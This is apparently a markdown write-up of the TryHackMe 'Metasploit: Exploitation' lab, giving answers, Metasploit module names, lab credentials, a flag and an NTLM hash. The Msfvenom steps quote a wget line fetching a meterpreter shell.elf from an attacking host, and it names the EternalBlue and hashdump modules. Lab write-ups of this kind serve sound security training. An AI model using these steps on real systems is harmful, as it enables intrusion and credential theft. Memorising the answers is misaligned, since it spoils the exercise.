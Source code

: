 ![Metasploit: Exploitation Banner](https://assets.tryhackme.com/room-banners/metasploit.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Cover.png" alt="Metasploit: Exploitation Logo">
</p>

# Metasploit: Exploitation

This guide contains the answer and steps necessary to get to them for the [Metasploit: Exploitation](https://tryhackme.com/room/metasploitexploitation) room.

## Table of contents

- [Scanning](#scanning)
- [The Metasploit Database](#the-metasploit-database)
- [Vulnerability Scanning](#vulnerability-scanning)
- [Exploitation](#exploitation)
- [Msfvenom](#msfvenom)

### Scanning


1. How many ports are open on the target system?

   auxiliary/scanner/portscan/tcp
   
   SCANNING PORTSCAN

   ><details><summary>Click for answer</summary>5</details>

2. Using the relevant scanner, what NetBIOS name can you see?

   auxiliary/scanner/discovery/udp_sweep

   SCANNING NETBIOS

   ><details><summary>Click for answer</summary>ACME IT SUPPORT</details>

3. What is running on port 8000?

   nmap -sV 10.10.162.76

   SCANNING NMAP

   ><details><summary>Click for answer</summary>WebFS/1.21</details>

4. What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task. 

   auxiliary/scanner/smb/smb_login

   SCANNING SMB

   ><details><summary>Click for answer</summary>leo1234</details>

### The Metasploit Database

systemctl start postgresql
sudo msfdb init

DATABASE INITIALIZE

DATABASE MSF

db_status
workspace
workspace -a tryhackme
workspace default

DATABASE SCAN

db_nmap -p- 10.10.162.76

### Vulnerability Scanning


1. Who wrote the module that allows us to check SMTP servers for open relay?

   VULNERABILITY SMTP

   ><details><summary>Click for answer</summary>Campbell Murray</details>

### Exploitation


1. Exploit one of the critical vulnerabilities on the target VM

   EXPLOITATION HOST
   
   EXPLOITATION EXPLOITED
   
   exploit/windows/smb/ms17_010_eternalblue


2. What is the content of the flag.txt file?

   EXPLOITATION FLAG

   ><details><summary>Click for answer</summary>THM-5455554845</details>

3. What is the NTLM hash of the password of the user "pirate"?

   post/windows/gather/hashdump
   
   EXPLOITATION HASH

   ><details><summary>Click for answer</summary>8ce9a3ebd1647fcc5e04025019f4b875</details>

### Msfvenom



1. Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

2. Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).

3. Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).

4. Get a meterpreter session on the target machine.

5. Use a post exploitation module to dump hashes of other users on the system.

6. What is the other user's password hash?

   

   ><details><summary>Click for answer</summary></details>



